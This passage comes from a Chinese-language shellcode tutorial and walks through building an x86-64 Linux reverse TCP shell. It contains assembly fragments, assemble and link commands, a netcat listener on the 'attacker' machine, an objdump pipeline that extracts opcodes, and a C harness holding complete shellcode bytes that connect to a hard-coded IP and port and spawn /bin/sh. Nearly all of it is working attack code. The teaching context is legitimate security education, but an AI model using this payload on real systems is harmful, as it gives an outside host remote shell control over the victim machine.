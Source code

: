 ```
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

让我们将其汇编和链接到我们的受害者机器上：

```
$ nasm -felf64 reverse-tcp.nasm -o reverse-tcp.o
$ ld reverse-tcp.o -o reverse-tcp
```

然后，在我们的攻击者机器上运行以下命令：

```
$ nc -lp 1234
```

然后，再回到我们的受害者机器并运行我们的代码：

```
$ ./reverse-tcp
```

然后，在我们的攻击者机器上，我们连接到了受害者机器（Ubuntu）：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00220.gif)

现在，让我们将其转换为一个 shellcode：

```
$ objdump -M intel -D reverse-tcp | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00221.jpeg)

让我们将这个机器语言复制到我们的 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x68\xc0\xa8\xee\x01\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x2a\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
